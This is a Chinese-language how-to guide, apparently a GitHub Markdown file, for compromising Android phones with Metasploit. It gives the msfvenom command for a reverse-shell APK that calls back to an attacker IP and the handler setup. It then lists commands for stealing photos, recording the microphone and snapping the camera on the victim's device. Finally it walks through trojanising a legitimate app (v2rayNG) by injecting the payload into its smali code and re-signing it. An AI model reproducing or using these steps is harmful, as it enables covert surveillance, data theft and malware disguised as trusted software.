



# Msfvenom 安卓设备渗透指南
## 环境准备
* 木马apk
    * 其中：
        * `LHOST`代表的是监听主机，写kali的ip
        * bd.apk代表的是编译好的木马
```
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.0.108 LPORT=5555 R > bd.apk
```
* 在target上植入完成后
```
msfconsole
use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set LHOST 192.168.0.108
set LPORT 5555
exploit
```
开始监听
 
***
## 常用的指令

* 下载攻击机中的照片 `download <target的目录> <kali的目录>`

* 对攻击机进行录音监控 `record_mic -d 13 -f sound.wav -p false`

```
ecord_mic可能有参数：

-h：显示帮助。

-d ：记录的秒数，默认为1秒

（默认的1秒听不到啥，设置高了又会报错：Error running command record_mic: Rex::TimeoutError Operation timed out

参考原metasploit-framework issue地址：https://github.com/rapid7/metasploit-framework/issues/9113

本人在Kali linux测得13为最优秒数）

-F ：wav文件路径。默认为HOME / [随机乱码名字] .wav

-p ：自动播放捕获的音频，默认为“true”。
```
* 拍照：先通过`webcam_list`查看摄像头的索引
```
webcam_snap -i 2 -p demo.jpeg -q 20  -v false

-h：显示帮助。

-i ：要使用的网络摄像头的索引号。

-p ：JPEG图像文件路径。默认为HOME / [随机乱码名字] .jpeg

-q ：JPEG图像质量，默认为“50”。

-v ：自动查看JPEG图像，默认为“true”。
```
***
### 其他信息记录：
* 如果对方不锁屏的话，shell就不会掉线

***
## 手动给无壳apk添加backdoor
### 环境准备：
* Kali Linux
* apktool 版本：2.3.4
* 一个无壳app,我选择的是v2ray
* 用msfvenom生成好的木马文件 bd.apk
* 一个windows环境
* 在windows和linux端都需要准备好jdk8以上的版本
***
### 游戏开始：
1. 先在windows10下载好apktool,具体安装方法查看官网文档：[apktoll_install_process](https://ibotpeaches.github.io/Apktool/install/)
2. 将木马apk和需要注入的apk放在同一个目录下
3. 将他们用命令分别decomplie
```
apktool d bd.apk

apktool d v2rayng.apk
```
得到两个反编译后的文件夹，文件夹名为apk文件名的前缀
4. 现在开木马手动注入，打开v2ray文件夹，找到AndroidManifest.xml 找到文件的入口

5. 然后进入目录找到对应smali文件
6. 在文本中搜索onCreate()函数，将木马注入
```
invoke-static {p0}, Lcom/metasploit/stage/Payload;->start(Landroid/content/Context;)V
```

7. 完成后将木马的依赖文件复制到被注入apk中：
```
cp -r db/smali/com/* v2rayng/smali/com/
```
需要注意的是上面的目录格式是linux下的，将“/”改为“\”即可
8. 将被注入的app的权限重新定义，把木马AndroidManifest.xml中的权限拷贝到被注入文件的AndroidManifest.xml中

9. 检查权限，删除重复项
10. 将被注入的软件进行回编：
```
apktool b -o <path\demo.apk> .\v2rayng
```
11. 回编后的app需要重新打入签名才能使用
生成keystore:
```
keytool -genkey -v -keystore mykey.keystore -alias alias_name -keyalg RSA -keysize 1024 -validity 22222
```
12. 签名写入：
```
jarsigner -keystore mykey.keystore luyou.apk alias_name
```
***
### apktool的卸载
1. 在Kali 的文件夹`/etc/local/bin`中找到`apktool`以及'apktool.jar'两个文件，把他们删除
2. 再找到模版文件1.apk，将它删除
***
### **注意事项**

1. apk所运行的环境必须必须是64bit的电脑，否则在注入木马后再编译的过程中会有各种个样的错误。由于apktool是基于java进行跨平台的运行，所以自己查错认为是电脑位数的差别导致的错误


